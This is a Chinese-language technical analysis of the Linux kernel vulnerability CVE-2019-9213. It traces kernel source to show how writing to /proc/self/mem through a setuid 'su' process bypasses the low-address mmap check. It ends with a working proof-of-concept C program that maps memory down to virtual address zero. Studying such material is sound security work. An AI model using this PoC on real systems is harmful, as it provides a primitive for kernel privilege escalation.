

## CVE-2019-9213

#### 漏洞pattern

cap_capable函数在检查权限时存在缺陷，在跨进程的条件下，只检测当前进程的权限，使得可以通过两个进程来绕过security_mmap_addr函数。
在get_user_pages_remote函数中存在进程调度，能够跨进程调用到security_mmap_addr函数。

#### 漏洞分析

它是一个linux内核用户空间0虚拟地址映射漏洞
首先看一下他的补丁情况：  

可以根据补丁来定位到expand_downwards这个函数，我们看一下源码：
```
int expand_downwards(struct vm_area_struct *vma,
				   unsigned long address)
{
	struct mm_struct *mm = vma->vm_mm;
	struct vm_area_struct *prev;
	int error;

	address &= PAGE_MASK;
	error = security_mmap_addr(address);
	if (error)
		return error;

	..........
}
```
可以看到他调用了security_mmap_addr函数。我们继续查看security_mmap_addr函数：  
```
static inline int security_mmap_addr(unsigned long addr)
{
	return cap_mmap_addr(addr);
}

```
可以看到他是cap_mmap_addr函数的封装。
我们继续跟入：
```
int cap_mmap_addr(unsigned long addr)
{
	int ret = 0;

	if (addr < dac_mmap_min_addr) {
		ret = cap_capable(current_cred(), &init_user_ns, CAP_SYS_RAWIO,
				  SECURITY_CAP_AUDIT);
		/* set PF_SUPERPRIV if it turns out we allow the low mmap */
		if (ret == 0)
			current->flags |= PF_SUPERPRIV;
	}
	return ret;
}
```
dac_mmap_min_addr是0x1000，在这里他会对你能否分配低地址做一个判断。   
但是在这里存在一个问题，如果我们通过system函数调用LD_DEBUG=help su 1>&%d命令执行write操作，该函数检测的current_cred()就是执行write的进程的cred，而不是vma被改变的进程的cred。由于write操作是root，所以我们自然可以通过这个判断。  

基础科普：system()会调用fork()产生子进程，由子进程来调用/bin/sh-c string 来执行参数string字符串所代表的命令，此命>令执行完后随即返回原调用的进程。
 

接下来我们就跟踪一下write函数的执行,看它如何调用expand_downwards：    
```
static ssize_t mem_write(struct file *file, const char __user *buf,
			 size_t count, loff_t *ppos)
{
	return mem_rw(file, (char __user*)buf, count, ppos, 1);
}
```
mem_write函数是mem_rw函数的封装。   
```
static ssize_t mem_rw(struct file *file, char __user *buf,
			size_t count, loff_t *ppos, int write)
{
    ...................
    
	while (count > 0) {
		int this_len = min_t(int, count, PAGE_SIZE);

		if (write && copy_from_user(page, buf, this_len)) {
			copied = -EFAULT;
			break;
		}

		this_len = access_remote_vm(mm, addr, page, this_len, flags);
		if (!this_len) {
			if (!copied)
				copied = -EIO;
			break;
		}

		if (!write && copy_to_user(buf, page, this_len)) {
			copied = -EFAULT;
			break;
		}

		buf += this_len;
		addr += this_len;
		copied += this_len;
		count -= this_len;
	}
	*ppos = addr;

	mmput(mm);
free:
	free_page((unsigned long) page);
	return copied;
}
```
我们可以看到while循环中都利用了access_remote_vm来处理远程进程中的数据。    
access_remote_vm函数是__access_remote_vm函数的封装。   

```
int access_remote_vm(struct mm_struct *mm, unsigned long addr,
		void *buf, int len, unsigned int gup_flags)
{
	return __access_remote_vm(NULL, mm, addr, buf, len, gup_flags);
}
```

```
int __access_remote_vm(struct task_struct *tsk, struct mm_struct *mm,
		unsigned long addr, void *buf, int len, unsigned int gup_flags)
{
	struct vm_area_struct *vma;
	void *old_buf = buf;
	int write = gup_flags & FOLL_WRITE;

	down_read(&mm->mmap_sem);
	/* ignore errors, just check how much was successfully transferred */
	while (len) {
		int bytes, ret, offset;
		void *maddr;
		struct page *page = NULL;

		ret = get_user_pages_remote(tsk, mm, addr, 1,
				gup_flags, &page, &vma, NULL);
		if (ret <= 0) {
         .......................
         
		} else {
			bytes = len;
			offset = addr & (PAGE_SIZE-1);
			if (bytes > PAGE_SIZE-offset)
				bytes = PAGE_SIZE-offset;

			maddr = kmap(page);
			if (write) {
				copy_to_user_page(vma, page, addr,
						  maddr + offset, buf, bytes);
				set_page_dirty_lock(page);
			} else {
				copy_from_user_page(vma, page, addr,
						    buf, maddr + offset, bytes);
			}
			kunmap(page);
			put_page(page);
		}
		len -= bytes;
		buf += bytes;
		addr += bytes;
	}
	up_read(&mm->mmap_sem);

	return buf - old_buf;
}

```

get_user_pages_remote函数和get_user_pages函数(二者区别：是否跨进程)都是__get_user_pages_locked函数的封装，作用在于查找并将给定的虚拟地址范围固定到page。之后通过kmap函数将page映射到永久内存映射区，如果是写操作则调用copy_to_user_page函数之后调用set_page_dirty_lock函数将page设置为脏，读操作则调用copy_from_user_page函数。之后调用kunmap函数取消映射。    

get_user_pages_remote函数和get_user_pages函数：
```
long get_user_pages_remote(struct task_struct *tsk, struct mm_struct *mm,
		unsigned long start, unsigned long nr_pages,
		unsigned int gup_flags, struct page **pages,
		struct vm_area_struct **vmas, int *locked)
{
	return __get_user_pages_locked(tsk, mm, start, nr_pages, pages, vmas,
				       locked,
				       gup_flags | FOLL_TOUCH | FOLL_REMOTE);
}
EXPORT_SYMBOL(get_user_pages_remote);

long get_user_pages(unsigned long start, unsigned long nr_pages,
		unsigned int gup_flags, struct page **pages,
		struct vm_area_struct **vmas)
{
	return __get_user_pages_locked(current, current->mm, start, nr_pages,
				       pages, vmas, NULL,
				       gup_flags | FOLL_TOUCH);
}
EXPORT_SYMBOL(get_user_pages);
```
这里get_user_pages_remote调用__get_user_pages_locked函数时设置了FOLL_REMOTE标志区分。

在这两个函数中调用了__get_user_pages_locked：    
```
static __always_inline long __get_user_pages_locked(struct task_struct *tsk,
						struct mm_struct *mm,
						unsigned long start,
						unsigned long nr_pages,
						struct page **pages,
						struct vm_area_struct **vmas,
						int *locked,
						unsigned int flags)
{
    
                ................
    
	pages_done = 0;
	lock_dropped = false;
	for (;;) {
		ret = __get_user_pages(tsk, mm, start, nr_pages, flags, pages,
				       vmas, locked);
		if (!locked)
			/* VM_FAULT_RETRY couldn't trigger, bypass */
			return ret;

		/* VM_FAULT_RETRY cannot return errors */
		if (!*locked) {
			BUG_ON(ret < 0);
			BUG_ON(ret >= nr_pages);
		}

		if (!pages)
			/* If it's a prefault don't insist harder */
			return ret;

		if (ret > 0) {
			nr_pages -= ret;
			pages_done += ret;
			if (!nr_pages)
				break;
		}
		if (*locked) {
			/*
			 * VM_FAULT_RETRY didn't trigger or it was a
			 * FOLL_NOWAIT.
			 */
			if (!pages_done)
				pages_done = ret;
			break;
		}
		/* VM_FAULT_RETRY triggered, so seek to the faulting offset */
		pages += ret;
		start += ret << PAGE_SHIFT;

		/*
		 * Repeat on the address that fired VM_FAULT_RETRY
		 * without FAULT_FLAG_ALLOW_RETRY but with
		 * FAULT_FLAG_TRIED.
		 */
		*locked = 1;
		lock_dropped = true;
		down_read(&mm->mmap_sem);
		ret = __get_user_pages(tsk, mm, start, 1, flags | FOLL_TRIED,
				       pages, NULL, NULL);
		if (ret != 1) {
			BUG_ON(ret > 1);
			if (!pages_done)
				pages_done = ret;
			break;
		}
		nr_pages--;
		pages_done++;
		if (!nr_pages)
			break;
		pages++;
		start += PAGE_SIZE;
	}
	if (lock_dropped && *locked) {
		/*
		 * We must let the caller know we temporarily dropped the lock
		 * and so the critical section protected by it was lost.
		 */
		up_read(&mm->mmap_sem);
		*locked = 0;
	}
	return pages_done;
}
```
__get_user_pages函数的作用是将start开始的nr_pages个页固定到pages。__get_user_pages函数返回值大于0说明调用成功，减少nr_pages增加pages_done，nr_pages为0则退出循环。   

之后再固定一个页。对应上面代码的：  
```
		lock_dropped = true;
		down_read(&mm->mmap_sem);
		ret = __get_user_pages(tsk, mm, start, 1, flags | FOLL_TRIED,
				       pages, NULL, NULL);
		if (ret != 1) {
			BUG_ON(ret > 1);
			if (!pages_done)
				pages_done = ret;
			break;
		}
		nr_pages--;
		pages_done++;
		if (!nr_pages)
			break;
		pages++;
		start += PAGE_SIZE;
	}
```
如果没有退出,nr_pages-1，pages_done+1，start地址加一个PAGE_SIZE重新开始固定。    
__get_user_pages函数查找vma是通过调用find_extend_vma函数实现的:   
```
find_extend_vma(struct mm_struct *mm, unsigned long addr)
{
	struct vm_area_struct *vma;
	unsigned long start;

	addr &= PAGE_MASK;
	vma = find_vma(mm, addr);
	if (!vma)
		return NULL;
	if (vma->vm_start <= addr)
		return vma;
	if (!(vma->vm_flags & VM_GROWSDOWN))
		return NULL;
	start = vma->vm_start;
	if (expand_stack(vma, addr))
		return NULL;
	if (vma->vm_flags & VM_LOCKED)
		populate_vma_page_range(vma, addr, start, NULL);
	return vma;
}
```
总的来说就是最终在写入的地址小于vm->start时,如果设置了VM_GROWSDOWN选项的话,就会调用expand_downwards函数。   

小结一下利用链：    
  

poc：   
```
int main()
{
    unsigned long addr = (unsigned long)mmap((void *)0x10000,0x1000,PROT_READ|PROT_WRITE|PROT_EXEC,MAP_PRIVATE|MAP_ANONYMOUS|MAP_GROWSDOWN|MAP_FIXED, -1, 0);
	if (addr != 0x10000)
			err(2,"mmap failed");
	int fd = open("/proc/self/mem",O_RDWR);
	if (fd == -1)
			err(2,"open mem failed");
	char cmd[0x100] = {0};
	sprintf(cmd, "su >&%d < /dev/null", fd);
	while (addr)
	{
			addr -= 0x1000;
			if (lseek(fd, addr, SEEK_SET) == -1)
					err(2, "lseek failed");
			system(cmd);
	}
	printf("contents:%s\n",(char *)1);
}
```
